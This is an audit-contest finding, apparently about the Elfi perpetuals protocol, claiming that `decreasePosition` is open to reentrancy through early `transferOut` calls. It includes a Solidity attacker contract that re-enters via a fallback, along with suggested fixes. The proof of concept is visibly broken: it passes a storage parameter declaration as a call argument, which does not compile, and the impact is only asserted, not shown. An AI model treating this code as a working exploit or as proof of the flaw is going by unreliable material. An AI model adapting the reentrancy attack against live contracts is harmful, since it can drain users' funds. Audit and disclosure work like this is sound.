 Careful Canvas Bird

High

# `decreasePosition` function is vulnerable to reentrancy attacks

pwning_dev
# decreasePosition function is vulnerable to reentrancy attacks

## Summary
The decreasePosition function potentially contains a reentrancy vulnerability due to the external calls made to VaultProcess.transferOut within `_settleCrossAccount` and `_settleIsolateAccount`. These calls can transfer tokens out to an external address which could be a contract designed to reenter the decreasePosition function.



## Vulnerability Detail
- External calls to `VaultProcess.transferOut` in `_settleCrossAccount` and `_settleIsolateAccount` are made before the state changes are completed.
- This opens up the possibility of a reentrant call where the attacker could reenter the `decreasePosition` function and perform malicious actions, such as withdrawing funds multiple times.
## Proof of Concept (PoC):
An attacker can use a reentrancy attack to call `decreasePosition` recursively before the state variables are updated, causing inconsistencies and potential fund loss. Here's an example of how this attack could be structured:
```solidity
pragma solidity ^0.8.18;

import "DecreasePositionProcess.sol";

contract AttackContract {
    DecreasePositionProcess public target;
    uint256 public amount;
    address public owner;

    constructor(address _target) {
        target = DecreasePositionProcess(_target);
        owner = msg.sender;
    }

    function attack() external {
        require(msg.sender == owner, "Only owner can initiate the attack");

        // Initialize the attack by calling decreasePosition
        target.decreasePosition(
            // Pass appropriate parameters to match DecreasePositionParams structure
            Position.Props storage position,
            DecreasePositionProcess.DecreasePositionParams({
                requestId: 1,
                symbol: keccak256(abi.encodePacked("ETH/USD")),
                isLiquidation: false,
                isCrossMargin: false,
                marginToken: address(this),
                decreaseQty: 1 ether,
                executePrice: 2000 ether
            })
        );
    }

    // Fallback function to execute during reentrancy
    fallback() external payable {
        if (amount < 10 ether) {
            amount += 1 ether;

            // Recursively call decreasePosition to exploit the reentrancy vulnerability
            target.decreasePosition(
                Position.Props storage position,
                DecreasePositionProcess.DecreasePositionParams({
                    requestId: 1,
                    symbol: keccak256(abi.encodePacked("ETH/USD")),
                    isLiquidation: false,
                    isCrossMargin: false,
                    marginToken: address(this),
                    decreaseQty: 1 ether,
                    executePrice: 2000 ether
                })
            );
        }
    }
}

```

## Impact
Mishandling of liabilities could lead to incorrect calculations or inconsistencies in the contract state, potentially impacting user funds or contract functionality.

## Code Snippet
```solidity
function decreasePosition(Position.Props storage position, DecreasePositionParams calldata params) external {
    ...
    if (params.decreaseQty == position.qty) {
        accountProps.delPosition(
            Position.getPositionKey(position.account, position.symbol, position.marginToken, position.isCrossMargin)
        );
        position.reset();
    } else {
        ...
        position.lastUpdateTime = ChainUtils.currentTimestamp();
    }
    ...
}

```
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/process/DecreasePositionProcess.sol#L60C3-L139C1
## Tool used
Vs code
Manual Review

## Recommendation
- Use the Checks-Effects-Interactions Pattern:
Ensure that all state changes are made before any external calls. This prevents the contract state from being manipulated during external calls.

- Implement Reentrancy Guards:
Use the nonReentrant modifier from OpenZeppelin’s ReentrancyGuard to prevent reentrant calls.